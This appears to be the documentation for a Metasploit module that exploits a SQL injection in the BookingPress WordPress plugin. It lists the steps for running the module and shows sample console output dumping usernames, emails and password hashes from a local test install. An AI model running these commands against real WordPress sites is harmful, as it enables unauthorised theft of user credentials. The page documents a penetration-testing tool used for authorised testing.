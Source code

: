 ## Verification Steps

1. Start msfconsole.
1. Do: `use auxiliary/gather/wp_bookingpress_category_services_sqli`.
1. Set the options `RHOSTS` to the target WordPress host IP address.
1. Set `RPORT` to the port that the target WordPress install is running on.
1. Set `BOOKING_PRESS_PAGE` to the path on the WordPress host where the BookingPress make a booking page is.
1. Verify visiting this URL shows "Select Category" and "Select Service" on the resulting page.
1. Run the module.
1. Receive a table of WordPress users and their associated email addresses and password hashes.

## Scenarios
### Booking Press 1.0.10, WordPress Running Via Docksal, Ubuntu 20.04
```
msf > use gather/wp_bookingpress_category_services_sqli
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > set rhosts localhost
rhosts => localhost
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > set rport 8000
rport => 8000
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > set AutoCheck false
AutoCheck => false
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[!] AutoCheck is disabled, proceeding with exploitation
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf auxiliary(gather/wp_bookingpress_category_services_sqli) >
```
